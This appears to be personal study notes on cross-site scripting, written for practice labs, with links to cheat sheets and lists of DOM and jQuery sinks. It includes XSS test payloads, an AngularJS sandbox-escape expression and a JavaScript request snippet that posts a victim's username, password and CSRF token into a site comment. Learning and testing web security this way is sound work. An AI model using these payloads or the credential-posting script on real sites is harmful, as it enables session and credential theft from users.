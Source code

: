 # Notes On XSS

## Cheat Sheets

* [Cheat sheet from portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [Mind Maps](https://github.com/imran-parray/Mind-Maps?fbclid=IwAR2Fku5VnWSrzVygr45FL351mMVDSa_Cd7VLYSFX4Mu_SODksITAKeARujs)

## Where to test

* Comment sections of websites where inputted text is stored and reflected.
* Search functionalities where search terms are reflected or processed by any javascript function

## Test payloads

* ```<svg onload=alert(1)>```
* ```<img src=valid_location onload=alert(document.cookie) x="">
* ```<img src="invalid_location" onerror="alert()">```
* ```<a href=javascript:alert(document.domain) x=""> mairala </a>``` or ```<a href="javascript:alert(document.domain)">mairala<\a>```
* ```\&#34;+confirm(1)+&#34;```

## Dom invader

* Canary = keyword/unique word which goes inside any function
* Stack Trace last line takes to the line of the function itself

## AngularJS

* ```{{constructor.constructor('alert(1)')()}}``` >=1.6.0 unhandled angularjs sandboxs

## Other Uncategorized

* innerHTML sinks does not accept ```<script>``` or ```<svg onload>``` element 

## Js function bugs

* ```string.replace('<', '&lt;')``` only replaces the first instances. So feeding the function some extra elements will help to execute arbitrary code

## DOM xss Vulnerable sinks

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```javascript
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

## Javascript Get And Post Request Making

```javascript
//data to send -> arrange according to burp suite request
const data = `name=victimName&email=victim@gmail.com&csrf=${csrf}&postId=5&comment=username:_${username}_password:_${password}&
website=${website}`;

const url = "/post/comment";

//xhr object
var xhr = new XMLHttpRequest();
xhr.open("POST", url);
xhr.setRequestHeader("Accept", "application/json");
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded" );
xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
        console.log(xhr.status);
        console.log(xhr.responseText);
        }
    };
xhr.send(data);
```

## Useful html tags and attributes

* ```onfocus=alert()``` is a good way
  * ```<tag tabindex=1>``` enables pressing 1 tab and focus into the tag
  * ```<tag id=x>``` and ```#x``` after url tailing with tab=1 makes it focus on the intended tag
